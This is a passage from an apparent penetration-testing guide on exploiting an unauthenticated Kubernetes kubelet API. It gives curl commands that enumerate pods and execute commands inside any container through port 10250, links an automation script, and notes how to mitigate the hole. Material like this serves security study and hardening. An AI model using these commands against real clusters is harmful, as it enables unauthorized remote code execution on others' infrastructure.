 All of them sounds interesting.

#### /pods

This endpoint list pods and their containers:
=== "Example"

    ```{ .sh .annotate linenums="1"}
    curl -ks https://worker:10250/pod
    ```
=== "Syntax"

    ```{ .sh .annotate linenums="1"}
    curl -ks https://worker:10250/pods
    ```

??? example "Expected output"

    ```{ .sh .annotate linenums="1"}
    ```
#### /exec

This endpoint allows to execute code inside any container very easily:
=== "Syntax"

    ```{ .sh .annotate linenums="1"}
    # Tthe command is passed as an array (split by spaces) and that is a GET request.
    curl -Gks https://worker:10250/exec/{namespace}/{pod}/{container} \
      -d 'input=1' -d 'output=1' -d 'tty=1' \
      -d 'command=ls' -d 'command=/'
    ```
=== "Example"

    ```{ .sh .annotate linenums="1"}
    # Tthe command is passed as an array (split by spaces) and that is a GET request.
    curl -Gks https://worker:10250/exec/{namespace}/{pod}/{container} \
      -d 'input=1' -d 'output=1' -d 'tty=1' \
      -d 'command=ls' -d 'command=/'
    ```

??? example "Expected output"

    ```{ .sh .annotate linenums="1"}
    ```

To automate the exploitation you can also use the script **[kubelet-anon-rce](https://github.com/serain/kubelet-anon-rce)**

!!! info
    To avoid this attack the kubelet service should be run with `--anonymous-auth false` and the service should be segregated at the network level.

### Checking Kubelet (Read Only Port) Information Exposure

